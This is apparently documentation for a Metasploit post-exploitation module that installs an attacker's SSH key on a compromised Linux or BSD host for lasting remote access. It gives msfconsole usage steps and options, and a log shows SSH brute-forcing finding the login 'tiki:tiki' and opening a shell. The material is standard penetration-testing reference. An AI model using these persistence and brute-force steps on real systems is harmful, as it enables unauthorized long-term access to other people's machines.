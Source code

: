 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Kali Rolling
2. Ubuntu 16.04
3. Centos 6
4. Fedora 20
5. FreeBSD 9

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use post/linux/manage/sshkey_persistence`
  5. Do: `set session #`
  6. Optional Do: `set username`
  7. Do: `set verbose true`
  8. Optional Do: `Set sshd_config`
  9. Do: `exploit`


## Options

### SSHD_CONFIG

  Location of the sshd_config file on the remote system.  We use this to determine if the authorized_keys file location has changed on the system.  If it hasn't, we default to .ssh/authorized_keys

### USERNAME

  If set, we only write our key to this user.  If not, we'll write to all users

### PUBKEY

  A public key to use.  If not provided, a pub/priv key pair is generated automatically

## Scenarios

### Ubuntu 16.04 (user level)

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
